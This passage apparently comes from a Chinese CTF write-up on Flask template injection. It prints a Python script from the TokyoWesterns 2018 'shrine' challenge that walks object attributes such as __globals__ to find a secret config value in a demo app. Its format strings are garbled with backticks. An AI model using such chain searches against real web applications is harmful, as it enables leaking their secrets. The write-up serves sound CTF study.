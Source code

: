 刚刚劫持的函数都在app变量下，所以可以直接访问，要是变量不在当前作用域呢，我们可以通过eviloh师傅tokyowestern 2018年 shrine的找继承链脚本，通过继承链访问

```
import flask
import os
from flask import request
from flask import g
from flask import config

app = flask.Flask(__name__)
app.config['FLAG'] = 'secret'

def search(obj, max_depth):
    visited_clss = []
    visited_objs = []

    def visit(obj, path='obj', depth=0):
        yield path, obj

        if depth == max_depth:
            return

        elif isinstance(obj, (int, float, bool, str, bytes)):
            return

        elif isinstance(obj, type):
            if obj in visited_clss:
                return
            visited_clss.append(obj)
            print(obj)

        else:
            if obj in visited_objs:
                return
            visited_objs.append(obj)

        # attributes
        for name in dir(obj):
            if name.startswith('__') and name.endswith('__'):
                if name not in ('__globals__', '__class__', '__self__',
                                '__weakref__', '__objclass__', '__module__'):
                    continue
            attr = getattr(obj, name)
            yield from visit(attr, '`{``}`.`{``}`'.format(path, name), depth + 1)

        # dict values
        if hasattr(obj, 'items') and callable(obj.items):
            try:
                for k, v in obj.items():
                    yield from visit(v, '`{``}`[`{``}`]'.format(path, repr(k)), depth)
            except:
                pass

        # items
        elif isinstance(obj, (set, list, tuple, frozenset)):
            for i, v in enumerate(obj):
                yield from visit(v, '`{``}`[`{``}`]'.format(path, repr(i)), depth)

    yield from visit(obj)

@app.route('/')
def index():
    return open(__file__).read()

```